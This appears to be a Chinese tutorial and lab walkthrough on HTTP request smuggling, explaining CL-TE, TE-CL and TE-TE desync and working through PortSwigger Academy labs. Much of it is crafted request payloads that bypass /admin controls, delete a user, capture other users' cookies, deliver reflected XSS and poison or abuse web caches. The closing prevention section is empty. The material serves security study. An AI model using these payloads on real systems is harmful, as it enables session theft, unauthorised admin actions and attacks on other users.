# 1.HTTP走私

## 1.前置知识

HTTP 1.1的协议特性——`Keep-Alive&Pipeline`

在`HTTP1.0`之前的协议设计中，客户端每进行一次HTTP请求，需要同服务器建立一个TCP链接。
而现代的Web页面是由多种资源组成的，要获取一个网页的内容，不仅要请求HTML文档，还有JS、CSS、图片等各种资源，如果按照之前的协议设计，就会导致HTTP服务器的负载开销增大。于是在`HTTP1.1`中，增加了`Keep-Alive`和`Pipeline`这两个特性。

### 1.1 Keep-Alive

**Keep-Alive**：在HTTP请求中增加一个特殊的请求头`Connection: Keep-Alive`，告诉服务器，接收完这次HTTP请求后，不要关闭`TCP链接`，后面对相同目标服务器的HTTP请求，重用这一个TCP链接。这样只需要进行一次TCP握手的过程，可以减少服务器的开销，节约资源，还能加快访问速度。这个特性在`HTTP1.1`中默认开启的。

### 1.2 Pipeline

**Pipeline(http管线化)**：http管线化是一项实现了多个http请求但不需要等待响应就能够写进同一个socket的技术，仅有http1.1规范支持http管线化。在这里，客户端可以像流水线一样发送自己的`HTTP`请求，而不需要等待服务器的响应，服务器那边接收到请求后，需要遵循先入先出机制，将请求和响应严格对应起来，再将响应发送给客户端。

## 2.原理

大多数HTTP请求走私漏洞的出现是因为HTTP规范提供了两种不同的方法来指定请求的结束位置：`Content-Length`标头和`Transfer-Encoding`标头。

该`Content-Length`头是直接的：它指定消息体的以字节为单位的长度。例如：

```
POST /search HTTP/1.1
Host: normal-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 11

q=smuggling
```

该`Transfer-Encoding`首标可以被用于指定该消息体的用途分块编码。这意味着消息正文包含一个或多个数据块。每个块均由以字节为单位的块大小（以十六进制表示）组成，后跟换行符，然后是块内容。该消息以大小为零的块终止。例如：

```
POST /search HTTP/1.1
Host: normal-website.com
Content-Type: application/x-www-form-urlencoded
Transfer-Encoding: chunked

b
q=smuggling
0
```

通俗将就是前后端服务器对于http请求处理方式不同行为引起的走私漏洞，前端服务器可能处理的是`Content-Length`头，但后端服务器可能处理的是``Transfer-Encoding``头，对于不同处理方式，中间的内容可能会丢失到下一个请求，就形成了`http`走私

## 3.类型

### 3.1 CL不为0的GET请求

前端代理服务器允许GET请求携带请求体，但后端服务器不允许GET请求携带请求体，则后端服务器会忽略掉GET请求中的`Content-Length`，不进行处理，从而导致请求走私。

```
GET / HTTP/1.1\r\n
Host: example.com\r\n
Content-Length: 44\r\n

GET / secret HTTP/1.1\r\n
Host: example.com\r\n
\r\n
```

前端服务器收到该请求，通过读取`Content-Length`，判断这是一个完整的请求，然后转发给后端服务器，而后端服务器收到后，因为它不对`Content-Length`进行处理，由于`Pipeline`的存在，它就认为这是收到了两个请求。

### 3.2 CL-CL

假设中间的代理服务器和后端的源站服务器在收到类似的请求时，都不会返回400错误，但是中间代理服务器按照第一个`Content-Length`的值对请求进行处理，而后端服务器按照第二个`Content-Length`的值进行处理。这样有可能引发请求走私。

```
POST / HTTP/1.1\r\n
Host: example.com\r\n
Content-Length: 8\r\n
Content-Length: 7\r\n

12345\r\n
a
```

前端代理服务器获取的数据包长度为 8，将以上数据包完整转发至后端服务器，但后端服务器仅接收长度为7的数据包。因此读取前7个字符后，后端服务器认为本次请求已经读取完毕，然后返回响应。

但此时缓冲区仍留下一个a，对于后端服务器来讲，这个a是下一个请求的一部分，但没传输完毕。如果此时传来一个请求

```
GET / HTTP/1.1
HOST: test.com
```

那么前端服务器和后端服务器将重用TCP连接，使后端实际接收的请求为：

```
aGET / HTTP/1.1
HOST: test.com
```

从而实现了一次HTTP请求攻击。

### 3.3 CL-TE

所谓`CL-TE`，就是当收到存在两个请求头的请求包时，前端代理服务器只处理`Content-Length`这一请求头，而后端服务器会遵守`RFC2616`的规定，忽略掉`Content-Length`，处理`Transfer-Encoding`这一请求头。

构造数据包

```
POST / HTTP/1.1\r\n
Host: ace01fcf1fd05faf80c21f8b00ea006b.web-security-academy.net\r\n
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.14; rv:56.0) Gecko/20100101 Firefox/56.0\r\n
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8\r\n
Accept-Language: en-US,en;q=0.5\r\n
Cookie: session=E9m1pnYfbvtMyEnTYSe5eijPDC04EVm3\r\n
Connection: keep-alive\r\n
Content-Length: 6\r\n
Transfer-Encoding: chunked\r\n
\r\n
0\r\n
\r\n
G
```

连续发送几次请求就可以获得该响应。



由于前端服务器处理`Content-Length`，所以这个请求对于它来说是一个完整的请求，请求体的长度为6，也就是

```
0\r\n
\r\n
G
```

当请求包经过代理服务器转发给后端服务器时，后端服务器处理`Transfer-Encoding`，当它读取到`0\r\n\r\n`时，认为已经读取到结尾了，但是剩下的字母`G`就被留在了缓冲区中，等待后续请求的到来。当我们重复发送请求后，发送的请求在后端服务器拼接成了类似下面这种请求。

```
GPOST / HTTP/1.1\r\n
Host: ace01fcf1fd05faf80c21f8b00ea006b.web-security-academy.net\r\n
......
```

服务器在解析时当然会产生报错了。

### 3.4 TE-CL

所谓`TE-CL`，就是当收到存在两个请求头的请求包时，前端代理服务器处理`Transfer-Encoding`这一请求头，而后端服务器处理`Content-Length`请求头。

Lab地址：https://portswigger.net/web-security/request-smuggling/lab-basic-te-cl

构造数据包

```
POST / HTTP/1.1\r\n
Host: acf41f441edb9dc9806dca7b00000035.web-security-academy.net\r\n
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.14; rv:56.0) Gecko/20100101 Firefox/56.0\r\n
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8\r\n
Accept-Language: en-US,en;q=0.5\r\n
Cookie: session=3Eyiu83ZSygjzgAfyGPn8VdGbKw5ifew\r\n
Content-Length: 4\r\n
Transfer-Encoding: chunked\r\n
\r\n
12\r\n
GPOST / HTTP/1.1\r\n
\r\n
0\r\n
\r\n
```



由于前端服务器处理`Transfer-Encoding`，当其读取到`0\r\n\r\n`时，认为是读取完毕了，此时这个请求对代理服务器来说是一个完整的请求，然后转发给后端服务器，后端服务器处理`Content-Length`请求头，当它读取完`12\r\n`之后，就认为这个请求已经结束了，后面的数据就认为是另一个请求了，也就是

```
GPOST / HTTP/1.1\r\n
\r\n
0\r\n
\r\n
```

成功报错。

### 3.5 TE-TE

`TE-TE`，也很容易理解，当收到存在两个请求头的请求包时，前后端服务器都处理`Transfer-Encoding`请求头，这确实是实现了RFC的标准。不过前后端服务器毕竟不是同一种，这就有了一种方法，我们可以对发送的请求包中的`Transfer-Encoding`进行某种混淆操作，从而使其中一个服务器不处理`Transfer-Encoding`请求头。从某种意义上还是`CL-TE`或者`TE-CL`。

Lab地址：https://portswigger.net/web-security/request-smuggling/lab-ofuscating-te-header

构造数据包

```
POST / HTTP/1.1\r\n
Host: ac4b1fcb1f596028803b11a2007400e4.web-security-academy.net\r\n
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.14; rv:56.0) Gecko/20100101 Firefox/56.0\r\n
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8\r\n
Accept-Language: en-US,en;q=0.5\r\n
Cookie: session=Mew4QW7BRxkhk0p1Thny2GiXiZwZdMd8\r\n
Content-length: 4\r\n
Transfer-Encoding: chunked\r\n
Transfer-encoding: cow\r\n
\r\n
5c\r\n
GPOST / HTTP/1.1\r\n
Content-Type: application/x-www-form-urlencoded\r\n
Content-Length: 15\r\n
\r\n
x=1\r\n
0\r\n
\r\n
```



需要`\r\n\r\n`在后面加上尾随序列`0`。

## 4、查找HTTP请求走私漏洞

### 4.1 使用计时技术查找HTTP请求走私漏洞

检测HTTP请求走私漏洞的最普遍有效方法是发送请求，如果存在漏洞，该请求将导致应用程序响应中的时间延迟。

#### 4.1.1 使用计时技术查找CL.TE漏洞

如果应用程序容易受到请求走私的CL.TE变体的攻击，则发送如下所示的请求通常会导致时间延迟：

```
POST / HTTP/1.1
Host: vulnerable-website.com
Transfer-Encoding: chunked
Content-Length: 4

1
A
X
```

由于前端服务器使用`Content-Length`标头，因此它将仅转发此请求的一部分，而忽略`X`。后端服务器使用`Transfer-Encoding`标头，处理第一个块，然后等待下一个块到达。这将导致明显的时间延迟。

#### 4.1.2 使用计时技术查找TE.CL漏洞

如果应用程序容易受到TE.CL变种的请求走私攻击，则发送如下所示的请求通常会导致时间延迟：

```
POST / HTTP/1.1
Host: vulnerable-website.com
Transfer-Encoding: chunked
Content-Length: 6

0

X
```

由于前端服务器使用`Transfer-Encoding`标头，因此它将仅转发此请求的一部分，而忽略`X`。后端服务器使用`Content-Length`标头，期望消息正文中有更多内容，然后等待其余内容到达。这将导致明显的时间延迟。

> 如果应用程序容易受到该漏洞的CL.TE变体的攻击，则基于时间的TE.CL漏洞测试可能会破坏其他应用程序用户。因此，要隐身并最大程度地减少中断，您应该首先使用CL.TE测试，只有在第一个测试失败的情况下才继续进行TE.CL测试。

### 4.2 使用差异响应确认HTTP请求走私漏洞

当检测到可能的请求走私漏洞时，您可以利用此漏洞触发应用程序响应内容的差异来获取该漏洞的进一步证据。这涉及快速连续地向应用程序发送两个请求：

- 一种“攻击”请求，旨在干扰下一个请求的处理。
- “正常”请求。

#### 4.2.1 使用差异响应确认CL.TE漏洞

要确认CL.TE漏洞，您将发送如下攻击请求：

```
POST /search HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 50
Transfer-Encoding: chunked

e
q=smuggling&x=
0

GET /404 HTTP/1.1
Foo: x
```

如果攻击成功，则后端服务器会将此请求的最后两行视为属于接收到的下一个请求。这将导致随后的“正常”请求如下所示：

```
GET /404 HTTP/1.1
Foo: xPOST /search HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 11

q=smuggling
```

由于此请求现在包含无效的URL，因此服务器将以状态代码404进行响应，指示攻击请求确实确实对其进行了干扰。

Lab地址：https://portswigger.net/web-security/request-smuggling/finding/lab-confirming-cl-te-via-differential-responses

构造数据包：

```
POST / HTTP/1.1
Host: ac201f6c1fc9901e8087240700e3006a.web-security-academy.net
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:66.0) Gecko/20100101 Firefox/66.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Cookie: session=Jcr7wr0rAtPCIePHi3MpPtKYvXX6Oe3p
Upgrade-Insecure-Requests: 1
Content-Length: 35
Transfer-Encoding: chunked

0

GET /404 HTTP/1.1
X-Ignore: X
```



#### 4.2.2 使用差分响应确认TE.CL漏洞

要确认TE.CL漏洞，您将发送如下攻击请求（需要`\r\n\r\n`在final 后面加上尾随序列`0`）：

```
POST /search HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 4
Transfer-Encoding: chunked

7c
GET /404 HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 144

x=
0
```

如果攻击成功，则`GET /404`后端服务器将从开始将所有内容视为属于接收到的下一个请求。这将导致随后的“正常”请求如下所示：

```
GET /404 HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 146

x=
0

POST /search HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 11

q=smuggling
```

由于此请求现在包含无效的URL，因此服务器将以状态代码404进行响应，指示攻击请求确实确实对其进行了干扰。

Lab地址：https://portswigger.net/web-security/request-smuggling/finding/lab-confirming-te-cl-via-differential-responses

构造数据包：

```
POST / HTTP/1.1
Host: acd31fc11fdb90f980e526ce00b800a5.web-security-academy.net
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:66.0) Gecko/20100101 Firefox/66.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Cookie: session=cGzs96HQw7tftthKo6AmNVgZ1wwj7PoH
Upgrade-Insecure-Requests: 1
Content-length: 4
Transfer-Encoding: chunked

5e
POST /404 HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 15

x=1
0

```



### 4.3 注意

在尝试通过干扰其他请求来确认请求走私漏洞时，应牢记一些重要的注意事项：

- 应使用不同的网络连接将“攻击”请求和“正常”请求发送到服务器。通过同一连接发送两个请求都不会证明该漏洞存在。
- “攻击”请求和“正常”请求应尽可能使用相同的URL和参数名称。这是因为许多现代应用程序根据URL和参数将前端请求路由到不同的后端服务器。使用相同的URL和参数会增加由同一后端服务器处理请求的机会，这对于进行攻击至关重要。
- 在测试“正常”请求以检测来自“攻击”请求的任何干扰时，您正在与应用程序同时接收到的任何其他请求（包括来自其他用户的请求）竞争。您应该在“攻击”请求之后立即发送“正常”请求。如果应用程序忙，则可能需要执行多次尝试以确认漏洞。
- 在某些应用程序中，前端服务器用作负载平衡器，并根据某些负载平衡算法将请求转发到不同的后端系统。如果将您的“攻击”和“正常”请求转发到不同的后端系统，则攻击将失败。这是为什么您可能需要多次尝试才能确认漏洞的另一个原因。
- 如果您的攻击成功干扰了后续请求，但这不是您发送来检测干扰的“正常”请求，则意味着另一个应用程序用户受到了您的攻击的影响。如果继续执行测试，可能会对其他用户造成破坏性影响，因此应谨慎行事。

## 5、利用HTTP请求走私漏洞

### 5.1使用HTTP请求走私绕过前端安全控制

在某些应用程序中，前端Web服务器用于实现某些安全控制，以决定是否允许处理单个请求。允许的请求将转发到后端服务器，在该服务器中，它们被视为已通过前端控件传递。

例如，假设应用程序使用前端服务器实施访问控制限制，则仅在授权用户访问请求的URL的情况下才转发请求。然后，后端服务器将接受每个请求，而无需进一步检查。在这种情况下，可以通过将请求走私到受限URL 来使用HTTP请求走私漏洞来绕过访问控制。

假设当前用户被允许访问，`/home`但不允许`/admin`。他们可以使用以下请求走私攻击来绕过此限制：

```
POST /home HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 60
Transfer-Encoding: chunked

0

GET /admin HTTP/1.1
Host: vulnerable-website.com
Foo: xGET /home HTTP/1.1
Host: vulnerable-website.com
```

前端服务器在这里看到两个请求，都针对`/home`，因此这些请求将转发到后端服务器。但是，后端服务器看到一个请求`/home`和一个请求`/admin`。它假定（一如既往）请求已通过前端控件传递，因此授予对受限URL的访问权限。

#### 5.1.1 利用HTTP请求走私绕过前端安全控制，CL.TE漏洞

Lab地址：https://portswigger.net/web-security/request-smuggling/exploiting/lab-bypass-front-end-controls-cl-te

构造数据包：

```
POST / HTTP/1.1
Host: 0a7b00c10367fc5e817825cb0057008f.web-security-academy.net
Cookie: session=7weoQ6KCBdPRNEmYeqMZJd2Wqhc7ui4H
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:130.0) Gecko/20100101 Firefox/130.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Referer: https://portswigger.net/
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: cross-site
Sec-Fetch-User: ?1
Priority: u=0, i
Te: trailers
Content-Type: application/x-www-form-urlencoded
Content-Length: 120
Transfer-Encoding: chunked

0

GET /admin HTTP/1.1
Host: localhost
Content-Type: application/x-www-form-urlencoded
Content-Length: 10

x=


```



发送之后可以访问到`/admin`界面了，可以看到删除功能

#### 5.1.2 利用HTTP请求走私绕过前端安全控制，TE.CL漏洞

Lab地址：https://portswigger.net/web-security/request-smuggling/exploiting/lab-bypass-front-end-controls-te-cl

同理上个实验，构造数据包，需要`\r\n\r\n`在后面加上尾随序列`0`：

```
POST / HTTP/1.1
Host: ac3a1fae1e6af8dc808e11f800b3006a.web-security-academy.net
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:66.0) Gecko/20100101 Firefox/66.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Cookie: session=D0lB6HQGL0w9onv0dX9xPFQZgSLJDGGe
Upgrade-Insecure-Requests: 1
Content-length: 4
Transfer-Encoding: chunked

71
POST /admin HTTP/1.1
Host: localhost
Content-Type: application/x-www-form-urlencoded
Content-Length: 15

x=1
0

```



访问到`/admin`界面，之后用http走私进行删除用户操作，构造数据包:

```
POST / HTTP/1.1
Host: ac3a1fae1e6af8dc808e11f800b3006a.web-security-academy.net
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:66.0) Gecko/20100101 Firefox/66.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Cookie: session=D0lB6HQGL0w9onv0dX9xPFQZgSLJDGGe
Upgrade-Insecure-Requests: 1
Content-length: 4
Transfer-Encoding: chunked

87
GET /admin/delete?username=carlos HTTP/1.1
Host: localhost
Content-Type: application/x-www-form-urlencoded
Content-Length: 15

x=1
0

```



此处需说明一点，请求包中chunk分块传输的数据库长度必须正确，同时走私请求中的Content-Length长度也需保证正确，否则会提示无法识别或非法请求。（因而这里87对应的十进制是：135。）


### 5.2 显示前端请求重写

在这种网络环境下，前端代理服务器在接收到请求后不会直接将请求转发给后端服务器，而是先添加一些必要的字段然后转发给后端服务器。

如果不能获取到前端代理服务器添加或重写的字段，那么我们走私的请求就无法被后端服务器处理。

如何获取这些值，这里有一个简单的方法：

1. 找一个能够将请求参数的值输出到响应中的POST请求
2. 把该POST请求中，找到的这个特殊的参数放在消息的最后面
3. 然后走私这一个请求，然后直接发送一个普通的请求，前端服务器对这个请求重写的一些字段就会显示出来。

Lab地址：https://portswigger.net/web-security/request-smuggling/exploiting/lab-reveal-front-end-request-rewriting

页面有个搜索框：


并且请求参数中的值能够输出到相应的POST请求中



构造一个走私请求数据包，多次发送在前端中显示了HTTP请求

> 解释一下：走私请求数据包中Content-length: 100，显然自身携带数据没有达到这个数目。
>
> 因而后端服务器会在收到第一个走私请求时会误以为该请求还没有结束，将不断接受新传来的HTTP请求直到长度达到100。
>
> 因此添加在search=test后的HTTP请求也成POST请求的一部分，最终将前端服务器添加的HTTP头显示在页面

```
POST / HTTP/1.1
Host: ac6d1f171e97a40f80a39c2d0050004c.web-security-academy.net
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:66.0) Gecko/20100101 Firefox/66.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Referer: https://ac6d1f171e97a40f80a39c2d0050004c.web-security-academy.net/
Content-Type: application/x-www-form-urlencoded
Content-Length: 109
Connection: close
Cookie: session=Udg4bkicRfjM9f2QNx0zP6Z51mcp0cfW
Upgrade-Insecure-Requests: 1
Transfer-Encoding: chunked

0

POST / HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 100

search=test

```



将获取的HTTP头添加到走私请求中，再次发送数据包

```
POST / HTTP/1.1
Host: ac6d1f171e97a40f80a39c2d0050004c.web-security-academy.net
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:66.0) Gecko/20100101 Firefox/66.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Referer: https://ac6d1f171e97a40f80a39c2d0050004c.web-security-academy.net/
Content-Type: application/x-www-form-urlencoded
Content-Length: 138
Connection: close
Cookie: session=Udg4bkicRfjM9f2QNx0zP6Z51mcp0cfW
Upgrade-Insecure-Requests: 1
Transfer-Encoding: chunked

0

POST /admin HTTP/1.1
X-FxStVB-Ip: 175.6.47.8
Content-Type: application/x-www-form-urlencoded
Content-Length: 15

search=test

```



重新构造一下xff头，值改为127.0.0.1，可查看到`/admin`界面



构造删除用户数据包：

```
POST / HTTP/1.1
Host: ac6d1f171e97a40f80a39c2d0050004c.web-security-academy.net
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:66.0) Gecko/20100101 Firefox/66.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Referer: https://ac6d1f171e97a40f80a39c2d0050004c.web-security-academy.net/
Content-Type: application/x-www-form-urlencoded
Content-Length: 170
Connection: close
Cookie: session=Udg4bkicRfjM9f2QNx0zP6Z51mcp0cfW
Upgrade-Insecure-Requests: 1
Transfer-Encoding: chunked

0

GET /admin/delete?username=carlos HTTP/1.1
X-FxStVB-Ip: 127.0.0.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 10
Connection: close

x=1

```



### 5.3 捕获其他用户的请求

如果应用程序包含任何允许存储和检索文本数据的功能，则可以使用HTTP请求走私来捕获其他用户请求的内容。这些可能包括会话令牌，启用会话劫持攻击或用户提交的其他敏感数据。用作攻击手段的合适功能是注释，电子邮件，配置文件描述，屏幕名称等。

要进行攻击，您需要走私一个将数据提交到存储功能的请求，其参数包含位于请求最后的数据。后端服务器处理的下一个请求将附加到走私请求上，结果将存储另一个用户的原始请求。

Lab地址：https://portswigger.net/web-security/request-smuggling/exploiting/lab-capture-other-users-requests

访问博客文章并发表评论。将`comment-post`请求发送到Burp Repeater，将主体参数随机播放，以使该`comment`参数最后出现，并确保它仍然有效。将`comment-post`请求`Content-Length`增加到400，然后将其走私到后端服务器，构造数据包：

```
POST / HTTP/1.1
Host: ac9e1f401f037f30802f1770002200fc.web-security-academy.net
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:66.0) Gecko/20100101 Firefox/66.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Cookie: session=GvJSTvhXyJeJlPNbJZHneuEjDwJL24XL
Upgrade-Insecure-Requests: 1
Content-Length: 259
Transfer-Encoding: chunked

0

POST /post/comment HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 600
Cookie: session=GvJSTvhXyJeJlPNbJZHneuEjDwJL24XL

csrf=ZrUm7NFnwTcKipoyhKdLML4JUG2nsVKs&postId=4&name=joker&email=test%40test.com&website=&comment=test

```



查看博客文章以查看是否有包含用户请求的评论。请注意，目标用户只会间歇地浏览该网站，因此您可能需要多次重复此攻击才能成功。

如果存储的请求不完整并且不包含Cookie头，则需要缓慢增加走私请求中Content-Length头的值，直到捕获整个cookie。

从注释中复制用户的Cookie标头，然后使用它访问其帐户。



上图为自己访问，获取自己的cookie。

如果需要获取到机器人的cookie值，需要不断的摸索CL长度，把cookie值显示完全，不能太长也不能太短。用了将近两个小时摸索到规律（说到底还是自己太菜了。。），获取的cookie如下：



### 5.4 使用HTTP请求走私来利用反射的XSS

如果应用程序容易受到HTTP请求走私的影响，并且还包含反射的XSS，则可以使用请求走私攻击来攻击该应用程序的其他用户。这种方法在两种方面优于对反射XSS的正常利用：

- 它不需要与受害者用户进行交互。您不需要向他们提供URL，也不必等待他们访问它。您只是走私了包含XSS有效负载的请求，后端服务器将处理下一个用户的请求。
- 它可以用于在请求的某些部分中利用XSS行为，而这些部分在正常的反射XSS攻击中是无法轻松控制的，例如HTTP请求标头。

构造请求包：

```
POST / HTTP/1.1
Host: acdb1f261ef53650804e1f3600d400b1.web-security-academy.net
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:66.0) Gecko/20100101 Firefox/66.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Cookie: session=5ZwMRDsuysnQYYEpfXKei2HCGDchgjN8
Upgrade-Insecure-Requests: 1

0

GET /post?postId=3 HTTP/1.1
User-Agent: "><script>alert(1)</script>#
```

其他用户如果在攻击者将请求走私到后端服务器之后访问该页面，将弹框


对照响应包可以看到xss插入的位置



### 5.5 使用HTTP请求走私将现场重定向转变为开放重定向

许多应用程序执行从一个URL到另一个URL的现场重定向，并将主机名从请求的`Host`标头放入重定向URL。一个示例是Apache和IIS Web服务器的默认行为，在该行为中，对不带斜杠的文件夹的请求将收到对包含该斜杠的文件夹的重定向：

```
GET /home HTTP/1.1
Host: normal-website.com

HTTP/1.1 301 Moved Permanently
Location: https://normal-website.com/home/
```

通常，此行为被认为是无害的，但是可以在请求走私攻击中利用它来将其他用户重定向到外部域。例如：

```
POST / HTTP/1.1
Host: vulnerable-website.com
Content-Length: 54
Transfer-Encoding: chunked

0

GET /home HTTP/1.1
Host: attacker-website.com
Foo: X
```

走私的请求将触发重定向到攻击者的网站，这将影响后端服务器处理的下一个用户的请求。例如：

```
GET /home HTTP/1.1
Host: attacker-website.com
Foo: XGET /scripts/include.js HTTP/1.1
Host: vulnerable-website.com

HTTP/1.1 301 Moved Permanently
Location: https://attacker-website.com/home/
```

在此，用户请求的是一个JavaScript文件，该文件是由网站上的页面导入的。攻击者可以通过在响应中返回自己的JavaScript来完全破坏受害者用户。

### 5.6使用HTTP请求走私来执行Web缓存中毒

在上述攻击的一种变体中，可能有可能利用HTTP请求走私来执行Web缓存中毒攻击。如果前端基础架构的任何部分执行内容缓存（通常出于性能原因），则可能会使用场外重定向响应来毒化缓存。这将使攻击持续存在，从而影响随后请求受影响URL的所有用户。

Lab地址：https://portswigger.net/web-security/request-smuggling/exploiting/lab-perform-web-cache-poisoning

这个环境也是一个可以修改 Host 进行跳转的场景，而在`/post/next?postId=2`路由正好有一个跳转的 api 供我们使用，这个路由跳转到的是`/post?postId=4`。

选择`/resources/js/tracking.js`进行投毒，进行以下设置：



使用漏洞利用服务器的主机名启动的攻击，以毒化服务器缓存，构造数据包：

```
POST / HTTP/1.1
Host: acb61fb81ff55c6580dd489600210048.web-security-academy.net
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:66.0) Gecko/20100101 Firefox/66.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Cookie: session=dI8YCOAhKmFfWG2IpulfysNUQ2X404e3
Upgrade-Insecure-Requests: 1
Content-Length: 182
Transfer-Encoding: chunked

0

GET /post/next?postId=3 HTTP/1.1
Host: ac5a1f711ff15cf780ed48720140009f.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 10

x=1


```

发送数据包，然后访问`/resources/js/tracking.js`:


我们可以看到响应包的跳转地址被我们修改成了我们 exploit 的服务器地址，然后我们访问正常服务器主页试试：



出现弹框。

### 5.7使用HTTP请求走私来执行Web缓存欺骗

在攻击的另一种形式中，您可以利用HTTP请求走私来执行Web缓存欺骗。这与Web缓存中毒攻击的工作方式相似，但目的不同。

**Web缓存中毒和Web缓存欺骗之间有什么区别？**

- 在**Web缓存中毒中**，攻击者使应用程序在缓存中存储一些恶意内容，然后将这些内容从缓存中提供给其他应用程序用户。
- 在**Web缓存欺骗中**，攻击者使应用程序将一些属于另一个用户的敏感内容存储在缓存中，然后攻击者从缓存中检索此内容。

Lab地址：https://portswigger.net/web-security/request-smuggling/exploiting/lab-perform-web-cache-deception

先登录账户，单击右上角的“帐户详细信息”，然后观察到响应没有任何反缓存标头。构造数据包：

```
POST / HTTP/1.1
Host: acba1f671f8c7fc0805f8775001c003e.web-security-academy.net
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:66.0) Gecko/20100101 Firefox/66.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Cookie: session=qKO9bEKjYR759Tozcni7YKBU52SHcVlQ
Upgrade-Insecure-Requests: 1
Content-Length: 44
Transfer-Encoding: chunked

0

GET /my-account HTTP/1.1
X-Ignore: X
```

然后在无痕浏览器中加载主页，只要我们多发送几次，一旦用户访问的是静态资源，就可能会被 Front 服务器缓存起来，我们就可以拿到用户`/private/messages`的信息了。这里可能需要大量的重复发包，因为需要构造让静态资源缓存，还是需要一定运气的。



上图为自己在无痕中访问获得的API Key。



上图是机器人的API Key，整了一个下午终于获取到了机器人的API Key了（有点强迫症，如果留一个实验没通过很难受），他那个机器人有点问题，还是要看运气。或许欧皇发一两次包就遇到了。

## 6、如何防止HTTP请求走私漏洞

